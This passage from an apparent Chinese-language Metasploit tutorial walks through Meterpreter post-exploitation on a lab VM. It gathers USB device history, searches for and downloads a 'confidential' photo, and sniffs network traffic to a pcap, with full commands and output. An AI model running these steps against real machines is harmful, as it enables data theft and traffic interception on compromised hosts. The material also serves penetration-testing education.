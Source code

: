 ```bash
meterpreter > run post/windows/gather/usb_history

[*] Running module against DESTINY-7846DE5
[*]
   A:	FDC#GENERIC_FLOPPY_DRIVE#6&1435b2e2&0&0#{53f5630d-b6bf-11d0-94f2-00a0c91efb8b}
   D:	IDE#CdRomNECVMWar_VMware_IDE_CDR10_______________1.00____#3031303030303030303030303030303030303130#{53f5630d-b6bf-11d0-94f2-00a0c91efb8b}
   F:	                                                             Disk 7a457a45
   E:	                                                             Disk 4f494d44

[*] WD Elements 25A2 USB Device
=====================================================================================
   Disk lpftLastWriteTime	                                           Unknown
             Manufacturer	                           (标准磁盘驱动器)
                    Class	                                         DiskDrive
                   Driver	       {4D36E967-E325-11CE-BFC1-08002BE10318}\0001
```

想想stuxnet是怎么进入隔离网络的。

#### 查找文件

这个功能很酷炫！假设我们获知目标系统上有一张名为`p2422196991`的机密照片，我们要获取这张照片。

```
meterpreter > search -f p2422196991.*
Found 2 results...
    c:\Documents and Settings\Administrator\Recent\p2422196991.lnk (468 bytes)
    e:\gadgets\p2422196991.jpg (1130039 bytes)
```

然后就可以下载了！

```
meterpreter > download e:\\gadgets\\p2422196991.jpg
[*] Downloading: e:\gadgets\p2422196991.jpg -> p2422196991.jpg
[*] Downloaded 1.00 MiB of 1.08 MiB (92.79%): e:\gadgets\p2422196991.jpg -> p2422196991.jpg
[*] Downloaded 1.08 MiB of 1.08 MiB (100.0%): e:\gadgets\p2422196991.jpg -> p2422196991.jpg
[*] download   : e:\gadgets\p2422196991.jpg -> p2422196991.jpg
```

或许有人想看看这张照片：

![Bildschirmfoto 2018-10-30 um 10.00.25 PM.png]({{ site.url }}/images/metasploit/E3C3424AA4D58C2DE395828611652A16.jpg)

## 高级扩展功能

#### 流量嗅探

```bash
meterpreter > load sniffer
Loading extension sniffer...Success.
# 列出所有接口
meterpreter > sniffer_interfaces

1 - 'VMware Accelerated AMD PCNet Adapter' ( type:0 mtu:1514 usable:true dhcp:false wifi:false )

# 开始嗅探，缓冲区大小为1000
meterpreter > sniffer_start 1 1000
[*] Capture started on interface 1 (1000 packet buffer)
# 下载流量包
meterpreter > sniffer_dump 1 xp_1.pcap
[*] Flushing packet capture buffer for interface 1...
[*] Flushed 38 packets (6192 bytes)
[*] Downloaded 100% (6192/6192)...
[*] Download completed, converting to PCAP...
```